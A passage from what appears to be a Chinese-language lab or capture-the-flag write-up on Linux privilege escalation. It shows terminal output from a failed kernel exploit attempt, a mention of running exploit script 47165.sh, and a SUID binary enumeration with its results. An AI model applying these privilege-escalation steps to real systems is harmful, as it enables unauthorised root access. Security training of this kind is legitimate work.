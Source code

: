 ```yacas
scanner@cloudav:/tmp$ ./exploit
./exploit
[+] Linux Privilege Escalation by theflow@ - 2021

[+] STAGE 0: Initialization
[*] Setting up namespace sandbox...
[*] Initializing sockets and message queues...

[+] STAGE 1: Memory corruption
[*] Spraying primary messages...
[*] Spraying secondary messages...
[*] Creating holes in primary messages...
[*] Triggering out-of-bounds write...
[*] Searching for corrupted primary message...
[-] Error could not corrupt any primary message.
scanner@cloudav:/tmp$ 
```

选择 `47165.sh`，需要下载一些子文件，一并上传，运行：

![image-20251022151418258](images/image-20251022151418258.png)

#### suid 提权

扫一遍 suid 文件

```yacas
scanner@cloudav:~/cloudav_app$ find / -perm -4000 -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/passwd
/usr/bin/newgidmap
/usr/bin/newuidmap
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/at
/usr/bin/sudo
/home/scanner/update_cloudav
/snap/core/17247/bin/mount
/snap/core/17247/bin/ping
```